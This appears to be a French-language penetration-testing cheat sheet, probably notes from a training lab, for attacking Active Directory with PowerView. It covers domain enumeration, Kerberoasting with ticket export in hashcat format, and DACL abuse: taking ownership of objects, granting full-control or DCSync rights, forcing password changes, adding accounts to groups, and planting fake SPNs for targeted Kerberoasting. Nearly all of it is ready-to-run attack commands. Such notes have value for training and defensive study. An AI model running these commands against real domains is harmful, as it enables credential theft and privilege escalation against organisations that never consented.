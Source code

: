 
> [!TIP]
> Enumération de l'AD
> https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1



```
Set-ExecutionPolicy Bypass -scope process
```

1. Importer module

```
import-module ./powerview.ps1
```


# 1. Enumération basique
#### Informations sur un user

```powershell
Get-DomainUser -Identity mmorgan -Domain inlanefreight.local | Select-Object -Property name,samaccountname,description,memberof,whencreated,pwdlastset,lastlogontimestamp,accountexpires,admincount,userprincipalname,serviceprincipalname,useraccountcontrol
```

Identifier tous les groupes

```
Get-DomainGroup -Identity * | Select name
```

Membres du groupe Admins du domaine

```powershell
Get-DomainGroupMember -Identity "Domain Admins" -Recurse
```

Identifier les computers

```powershell
Get-DomainComputer -Identity * | Select name
```

Relations de confiance

```powershell
Get-DomainTrustMapping
```

Tester si user actuel est admin de la machine cible

```powershell
Test-AdminAccess -ComputerName ACADEMY-EA-MS01
```

Récupérer les users avec SPN (Kerberoasting)

```powershell
Get-DomainUser -SPN -Properties samaccountname,ServicePrincipalName
```


# 2. Enumérer les users à privilèges


Identifier les users pouvant RDP sur une machine

```powershell
Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"
```

Identifier les users pouvant PSRemote (WinRM) sur une machine

```powershell
Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"
```



# 3. ACLs (Access Control List)


Identifier toutes les ACL pour un user/group (LONG)

```powershell
$sid = Convert-NameToSid <user/group>
Get-DomainObjectACL -Identity * -ResolveGUIDs | ? {$_.SecurityIdentifier -eq $sid}
```

Identifier les ACL sur un objet pour un user/group

```powershell
$sid = Convert-NameToSid <user/group>
Get-DomainObjectACL -Identity <objet> -ResolveGUIDs | ? {$_.SecurityIdentifier -eq $sid}
```



> [!TIP]
> l'option -ResolveGUIDS recupère la valeur ObjectAceType: 00299570-246d-11d0-a768-00aa006e0529 et reverse search avec ceci 
> 
> ```
> $guid= "00299570-246d-11d0-a768-00aa006e0529"
> Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-ADRootDSE).ConfigurationNamingContext)" -Filter {ObjectClass -like 'ControlAccessRight'} -Properties * |Select Name,DisplayName,DistinguishedName,rightsGuid| ?{$_.rightsGuid -eq $guid} | fl
> ```
> 
> 

Faire une liste de user et boucle foreach pour identifier les users sur lesquels on a des droits d'accès

```powershell
Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt
```

```powershell
foreach($line in [System.IO.File]::ReadLines("ad_users.txt")) {get-acl  "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match 'INLANEFREIGHT\\<useractuel>'}}
```

Identifier toutes les ACL sur le user retourné

```powershell
$sid = Convert-NameToSid <user>
Get-DomainObjectACL -Identity * -ResolveGUIDs | ? {$_.SecurityIdentifier -eq $sid}
```



# 4. Trust Relationships


Enumérer les relations d'approbation

```powershell
Get-DomainTrust 
```

```powershell
Get-DomainTrustMapping
```

Identifier les users d'un autre domaine si possible

```powershell
 Get-DomainUser -Domain LOGISTICS.INLANEFREIGHT.LOCAL | select SamAccountName
```



---

# 4. EXPLOITATION


## 1. KERBEROASTING

Récupérer les users avec SPN et afficher le type de chiffrement utilisé -> https://techcommunity.microsoft.com/blog/coreinfrastructureandsecurityblog/decrypting-the-selection-of-supported-kerberos-encryption-types/1628797

```powershell
Get-DomainUser -SPN -Properties samaccountname,ServicePrincipalName,msds-supportedencryptiontypes
```

X-Forest

```powershell
Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName
```

Requête d'un TGS sur user spécifique au format hashcat

```powershell-session
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```

Requête d'un TGS sur tous les user vulnérables au format hashcat et export en CSV

```powershell-session
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```




## 3. DACL Abuse

- `ForceChangePassword` abused with `Set-DomainUserPassword`
- `Add Members` abused with `Add-DomainGroupMember`
- `GenericAll` abused with `Set-DomainUserPassword` or `Add-DomainGroupMember`
- `GenericWrite` abused with `Set-DomainObject`
- `WriteOwner` abused with `Set-DomainObjectOwner`
- `WriteDACL` abused with `Add-DomainObjectACL`
- `AllExtendedRights` abused with `Set-DomainUserPassword` or `Add-DomainGroupMember`
- `Addself` abused with `Add-DomainGroupMember`


### 1. S'authentifier avec le compte ayant les droits

```powershell
$SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword) 
```


### 2. WriteOwner

Changer le propriétaire de l'objet

```Powershell
Set-DomainObjectOwner -Identity 'target_object' -OwnerIdentity 'controlled_principal' -Credential $Cred -Verbose
```


### 3. WriteDACL

Attribuer les droits fullcontrol / DCSync sur la target

```powershell
Add-DomainObjectAcl -Rights 'All' -TargetIdentity "target_object" -PrincipalIdentity "controlled_object" -Credential $Cred -Verbose
```


### 4. ForceChangePassword

Attribuer le nouveau mot de passe à la target (doit être connecté en tant que le user ayant les droits)

```powershell
Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
```


### 5. AddMember (AddSelf)

Ajouter le user au groupe

```powershell
Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred -Verbose
```

Confirmer l'ajout du user

```powershell
Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName
```


### 6. GenericWrite

#### TargetedKerberoast

1. Vérifier que la target n'a pas de SPN

```powershell
Get-DomainUser 'adunn' | Select serviceprincipalname
```

2. Ajouter le SPN au user

```powershell
Set-DomainObject -Credential $Cred -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```

3. Kerberoasting -> [[POWERVIEW#1. KERBEROASTING]] 







